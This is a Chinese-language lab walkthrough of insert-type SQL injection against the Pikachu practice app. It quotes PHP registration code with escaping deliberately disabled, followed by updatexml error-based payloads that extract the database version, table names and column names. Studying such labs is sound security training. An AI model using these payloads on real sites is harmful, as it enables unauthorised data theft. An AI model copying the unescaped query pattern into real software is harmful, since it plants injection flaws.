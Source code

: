 **服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";

        }
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

**漏洞利用**

在上面搜索型注入中演示了 select 类报错获取信息,insert 和 update 其实类似

先测 insert 注入,在注册页面输入 `'` ,来查看后端反馈的观察,通过观察报错了解到提交的内容在后台参与了拼接.

![](../../../../assets/img/安全/实验/Misc/pikachu/45.png)

版本 `1' or updatexml(1,concat(0x7e,(version())),0) or'')#`

表名 `1' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0) or'')#`

![](../../../../assets/img/安全/实验/Misc/pikachu/46.png)

老规矩,改 limit 后的数字

字段名 `1' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0) or'')#`

![](../../../../assets/img/安全/实验/Misc/pikachu/47.png)
